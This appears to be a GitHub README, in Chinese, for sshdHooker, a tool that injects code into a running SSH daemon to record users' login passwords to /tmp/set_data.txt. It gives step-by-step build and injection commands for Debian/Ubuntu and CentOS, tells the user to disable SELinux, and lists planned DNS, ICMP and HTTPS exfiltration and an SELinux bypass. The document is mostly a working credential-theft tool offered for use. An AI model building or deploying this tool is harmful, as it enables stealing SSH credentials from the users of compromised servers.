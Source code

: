 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。

需要关闭selinux

# how to use
DEBIAN/UBUNTU执行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so

mv test2.so /tmp/hello.so

gcc sshdHooker.c utils.c shellcode.s -no-pie -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```
centos/redhat执行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c utils.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/set_data.txt

# todo

 - 增加x86/arm支持
 - 自定义so路径
 - dns/icmp/https发送
 - bypass SELINUX